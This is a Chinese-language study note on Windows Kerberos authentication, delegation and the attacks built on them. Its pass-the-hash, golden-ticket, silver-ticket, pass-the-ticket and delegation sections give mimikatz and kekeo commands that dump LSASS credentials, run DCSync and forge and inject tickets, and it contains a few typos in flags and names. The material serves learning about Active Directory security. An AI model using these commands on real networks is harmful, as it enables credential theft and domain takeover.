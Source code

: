 ```yaml
---
title: Kerberos协议
tags: Windows
---
```


## kerberos 认证过程

### 角色

+ Client：访问服务的主机
+ Server：提供服务的主机
+ KDC（Key Distribution Center）：密钥分发中心，包含 AS（Authentication Service） 和 TGS（Ticket Granting Service）

### 过程

+ AS_REQ：Client 向 KDC 发送 ASREQ，请求凭据是 Client hash 加密的时间戳
+ AS_REP：KDC 使用 Client hash 进行解密，如果结果正确就返回 krbtgt hash 加密的 TGT 票据，TGT 票据里包含 PAC，PAC 包含 Client 的sid、Client 所在的组
+ TGS_REQ：Client 向 KDC 发送 TGT 票据，请求特定服务
+ TGS_RSP：KDC 使用 krbtgt hash 进行解密，如果结果正确，就返回用服务 hash 加密的 TGS 票据
+ AP_REQ：Client 使用 TGS 票据请求服务
+ AP_REP：服务用自己的 hash 解密 TGS 票据，如果解密正确，就发送 PAC 给 KDC，询问 Client 的访问权限，域控解密 PAC，获取 Client 的 sid，以及所在的组再根据服务的 ACL，判断 Client 的权限

## 委派

主机 A 使用主机 B 的某服务，此时需要通过主机 B 的某服务请求主机 C 的 某项专属 A 的服务，B 就需要代表 A 去访问 C 的该服务。

### 非约束性委派

被配置了约束性委派的主机B，会接受任何用户的委派去请求其他服务，原理是 A 将 TGT 发送到 B 中并缓存到 LSASS，B 就可以模拟用户去访问服务。

### 约束委派

约束委派将限制指定服务器可以代表用户执行的服务，原理是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的kerberos服务票据(S4U2SELF)，拿着这个票据向KDC请求访问特定服务的可转发的TGS(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务（需要域管理员的权限）。

### 基于资源的约束委派

约束委派需要域管理员权限，为了使用户资源更加独立，微软引进了基于资源的约束委派。基于资源的约束委派允许资源配置受信任的帐户委派给他们。基于资源的约束委派将委派的控制权交给拥有被访问资源的管理员。



## 认证过程引发的安全问题

### PTH/PTK

PTH，即 pass the hash。在访问主机 RDP 服务时，进行认证的过程中，唯一用到的与 Client 密码相关的是 AS_REQ 中使用的 hash，因此没有明文密码也是可以认证的。如果 hash 的 ntlm hash，加密方式为 rc4，这种就属于 pth，如果 hash 是 aes key，就算是 pass the key。

#### mimikatz操作

##### PTH

```
在目标机器中抓取密码 hash：
privilege::debug
sekurlsa::logonpasswords

在本机 pass the hash：
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:ccef208c6485269c20db2cad21734fe7
```
##### PTK
```
在目标机器中抓取 key：
privilege::debug
mimikatz "privilege::debug" "sekurlsa::ekeys"

在本机 pass the key：
mimikatz "privilege::debug" "sekurlsa::pth /user:mary /domain:hack.test /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288" 
```



### 黄金票据

AS_REP 中的 TGT 票据是使用 krbtgt 的 hash 进行加密的，如果拥有 krbtgt 的hash，就可以给自己签发任意用户的 TGT 票据，这个票据被称为黄金票据。

#### mimikatz

```
在域控内导出 kribtgt 的 hash：
privilege::Debug
lsadump::dcsync /domain:hack.test /user:krbtgt

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

生成黄金票据：
kerberos::golden /user:Administrator /domain:hack.test /sid:S-1-5-21-3763276348-88739081-2848684050 /krbtgt:d8d2ad72a119a8d418703f7a16580af6 /ticket:1.kirbi

在本机测试：
kerberos::purge // 清空已有票据
kerberos::ptt 1.kirbi	//导入票据
lsadump::dcsync /domain:test.com /user:krbtgt	// 导出 krbtgt 账号密码，作用是测试票据是否导入成功
```



### PTT

ptt，即 pass the ticket，Kerberos认证过程除了第一步AS_REQ是使用时间戳加密用户hash验证之外，其他验证都是通过票据，如果能拿到票据，就可以使用票据进行下个阶段的验证。

#### mimikatz

```
在域控中导出所有票据：
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"	

在本机导入票据：
kerberos::purge	//清除票据
mimikatz.exe "kerberos::ptt "[0;4ee98c]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi"	//将票据注入到内存
```



### 白银票据

TGS_REP 中返回的 TGS 票据是使用服务的 hash 加密的，如果已经拥有服务的 hash，就可以给任意用户签发票据，访问特定服务，这就是白银票据。伪造的白银票据并没有与 KDC 通讯，所以票据里并没有带有有效 KDC 签名的 PAC，故如果目标主机配置为验证 KDC PAC签名，则白银票据失效。

#### mimikatz

```
域管账号登录域控，抓取密码hash：
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

导入白银票据：
kerberos::golden /domain:hack.test /sid:S-1-5-21-4188752632-3746001697-3968431413 /target:dc.hack.test /rc4:6f949c52336e143ff8a2f5957416a73a /service:cifs /user:ceshi /ptt

导入命令详解：
kerberos::golden：使用minikatz中票据的功能
/domain：指定域名
/sid：域sid号
/target：主域控中的计算机全名
/rc4：在域控中抓取的hash(NTLM)
/service：需要伪造的服务（cifs只是其中的一种服务，可伪造的服务很多）
/user：需要伪造的用户名（可自定义）
/ppt：伪造了以后直接写入到内存中
```



### 非约束委派攻击

拿下配置非约束委派的服务器后，诱导域管访问，此时域管会将自己的 TGT 票据发送给该服务器并缓存到 Lsass 中，导出票据即可使用 PTT 接管域账号



### 约束委派攻击

拿下约束委派用户的账号密码后，可以向域控发送 TGT 请求，得到特定服务可转发的 TGS 票据

#### kekeo+mimikatz

```
已获取约束委派用户账号密码的前提下：

使用 kekeo 向域控发起 TGT 请求:
tgt::ask /user:test /domain:hack.test /password:Asdf1234 /ticket:test.kirbi

利用得到的 TGT 票据去 TGS 申请 ST 票据：
tgs::s4u /tgt:TGT_test@HACK.TEST_krbtgt~hack.test@hack.test.kirbi /user:Administrator@hack.test /service:cifs/DC.hack.test

mimikatz导入票据：
kerberos::ptt TGS_Administrator@hack.test@HACK.TEST_cifs~DC.hack.test@HACK.TEST.kirbi
```







